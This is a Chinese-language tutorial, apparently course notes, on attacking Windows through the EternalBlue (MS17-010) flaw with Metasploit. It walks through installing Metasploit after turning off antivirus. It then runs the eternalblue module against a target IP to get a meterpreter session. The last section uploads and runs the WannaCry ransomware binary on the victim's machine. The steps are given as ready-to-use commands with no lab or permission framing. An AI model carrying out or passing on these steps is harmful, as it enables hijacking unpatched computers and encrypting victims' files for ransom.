






**WannaCry病毒**，使用了**永恒之蓝漏洞**，是一种在2017年5月大规模爆发的勒索病毒，它属于勒索病毒家族，主要通过加密用户计算机中的文件来进行勒索。

>[!BUG] 永恒之蓝
>**永恒之蓝(对应微软漏洞编号 MS17-010)** 是针对Windows的高危远程代码执行漏洞，最初由美国国家安全局开发为攻击工具，2017年4月被黑客组织“影子经纪人”公开后，引发了全球多起重大网络安全事件。

### MSF安装(Windows版)

**Metasploit Framework (MSF)** 是一款开源安全漏洞检测工具，附带数千个已知的软件漏洞，并保持持续更新。Metasploit 可以用来信息收集、漏洞探测、漏洞利用等渗透测试的全流程，被安全社区冠以 “可以黑掉整个宇宙” 之名，支持 Windows、Linux、MACOS，本次课程我们将在 Windows 系统安装 MSF，并且学习相关的工具。

1. 访问官网进行下载，MSF在Kali中自带，MSF官网地址：[Metasploit Framework](https://windows.metasploit.com/)
（点击最新版的 `.msi` 结尾的链接）


2. 先关掉杀软，避免被检测出风险软件，也可以添加路径白名单；然后运行安装程序；



3. 配置系统环境变量；

```bash
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v Path /t REG_EXPAND_SZ /d "%PATH%;D:\metasploit-framework\bin" /f
```

命令中的 `D:\metasploit-framework\bin` 替换为自己的安装路径下的bin路径。

- **命令行方式**：通过 `reg add` 直接修改注册表，无需图形界面，适合脚本化批量操作，也可以在没有图形界面的服务器上使用。
- **手动图形界面方式**：通过 “系统属性→环境变量” 的可视化界面来修改，更直观，适合普通用户单次操作。

两者最终都会修改系统 `Path` 环境变量，让系统能在任意目录下找到 Metasploit 的工具。

4. 启动MSF，在终端输入下列指令即可启动；

```bash
msfconsole
```



### 利用永恒之蓝远控电脑

1. 开始前必须了解永恒之蓝，指定它的编号（MS17-010），在终端搜索模糊漏洞编号；

```bash
search ms17-010
```

也可以直接输入 `search ms17` 进行模糊查询也可以查到，查询到的结果中：

- **`exploit/windows/smb/ms17_010_eternalblue`**
    - 这确实是永恒之蓝漏洞的最原始利用模块，用于直接发起攻击。
    - 它会通过 SMB 协议漏洞在目标系统上执行代码，常被用来获取目标的系统权限。

- **`auxiliary/scanner/smb/smb_ms17_010`**
    - 这是一个被动的漏洞检测模块，它只负责扫描目标主机是否存在 MS17-010 漏洞，不会主动发起攻击。

- **`auxiliary/admin/smb/ms17_010_command`**
    - 这个模块可以在已确认存在漏洞的目标上直接执行终端命令，通常是在检测出漏洞后，用来快速验证权限或执行简单操作。

- **`exploit/windows/smb/ms17_010_psexec`**
    - 它是基于 MS17-010 漏洞的一个变种模块，主要作用是上传并执行 payload，比如植入后门或远控程序，功能比 `eternalblue` 更侧重 “上传执行”。



2. 使用 `use` 命令选择使用的模块（模块前面的序号），此处以使用 `exploit/windows/smb/ms17_010_eternalblue` 模块来攻击 `Windows10专业版`，使用下列命令；

```bash
use 8
```



3. 使用 `options` 来查看相关的配置信息，然后使用 `set` 设置相关的参数；

```bash
options
set rhost "目标IP"
```



4. 输入 `run` 开始运行，若成功显示 `meterpreter` 则表示已经成功远控该电脑。



### 远控后上传病毒

1. 在使用MSF成功得到目标电脑的控制端口后，执行传入病毒的指令：

```bash
upload 攻击者电脑的病毒绝对路径 受害者电脑病毒的存放路径
# 以桌面的WannaCryptor.exe病毒为例
upload C:/Users/Administrator/Desktop/Ransom.WannaCryptor.exe C:/Windows/temp
```

2. 运行病毒

```bash
execute -f 受害者病毒存放路径
# 继续以刚才的WannaCryptor.exe病毒为例
execute -f C:/Windows/temp/Ransom.WannaCryptor.exe
```

